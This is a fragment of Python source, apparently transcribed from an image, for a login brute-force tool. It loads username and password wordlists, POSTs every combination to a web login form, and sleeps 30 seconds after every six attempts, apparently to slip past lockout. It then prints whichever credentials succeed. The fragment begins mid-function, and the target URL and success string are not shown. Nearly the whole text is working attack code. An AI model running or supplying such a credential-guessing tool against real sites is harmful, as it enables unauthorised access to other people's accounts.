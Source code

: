 ```python
    data = {"userid": user, "passwd": message, "submit": "submit", "rememberme": "rememberme"}
    res = requests.post(url, headers=headers, data=data)

    return res.text

"""
if defined valid string is found in response body return True
"""
def check(haystack, needle):
    if needle in haystack:
        return True
    else:
        return False

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if len(sys.argv) == 3 and os.path.isfile(sys.argv[1]) and os.path.isfile(sys.argv[2]):
        username_list = sys.argv[1]
        password_list = sys.argv[2]
    else:
        print("[!] Please check wordlists")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()
        
    usernames = []
    
    with open(username_list) as ulist:
        for username in ulist:
            usernames.append(username.rstrip())
    
    passwords = []  
    
    with open(password_list) as plist:
        for password in plist:
            passwords.append(password.rstrip())
    
    successful_credentials = {}

    # will be slow for long lists of usernames but for now we have only a few
    for username in usernames:
        count = 0
    
        for password in passwords:
            if count >= 6:
                time.sleep(30)
                count = 0
         
            res = do_req(url, username, password, headers)

            # call function check() to verify if HTTP response text matches our content
            if (check(res, valid)):
                print(f"{username}:{password} - successfully logged in")
                successful_credentials[username] = password
            else:
                print(f"{username}:{password}")
            
            count += 1 
            
    print("Successful credentials found: \n")
    
    for username, password in successful_credentials.items():
        print(f"{username}:{password}")

```